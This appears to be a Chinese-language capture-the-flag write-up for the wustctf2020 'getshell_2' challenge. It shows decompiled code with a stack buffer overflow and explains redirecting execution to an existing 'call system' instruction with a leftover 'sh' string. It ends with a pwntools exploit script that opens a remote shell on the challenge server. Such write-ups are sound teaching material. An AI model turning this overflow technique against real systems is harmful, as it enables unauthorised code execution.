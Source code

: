 ```yaml
---
layout: post
title:  getshell_2(wustctf2020)
date:   2022-09-21 00:08:01 +0300
image:  2022-09-21-cat.jpg
tags:   [ctf,pwn,ubuntu16,stackoverflow,ret2text]
---
```


main

```assembly
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  vulnerable();
  return 0;
}
```

vulnerable

```assembly
ssize_t vulnerable()
{
  char buf[24]; // [esp+0h] [ebp-18h] BYREF

  return read(0, buf, 0x24u);
}
```

但是没法利用`system@plt`地址，因为plt地址需要返回值，可溢出的地址位数不够`0x24-0x18=0xc`，所以只能用`shell()`里的`call system`来调用system，call函数不用返回值了，它会自己把下一条指令给压进去

```assembly
int shell()
{
  return system("/bbbbbbbbin_what_the_f?ck__--??/sh");
}
```

虽然没有给`/bin/sh`，但是这串字符串的最后`sh`可以用作参数，同样可以获取到shell。

```assembly
from pwn import *

io = remote("node4.buuoj.cn", 29546)

sh = 0x08048670
call_system = 0x08048529

#attack
payload = b'M'*(0x18+4) + p32(call_system) + p32(sh)
io.recv()
io.sendline(payload)

io.interactive()
```

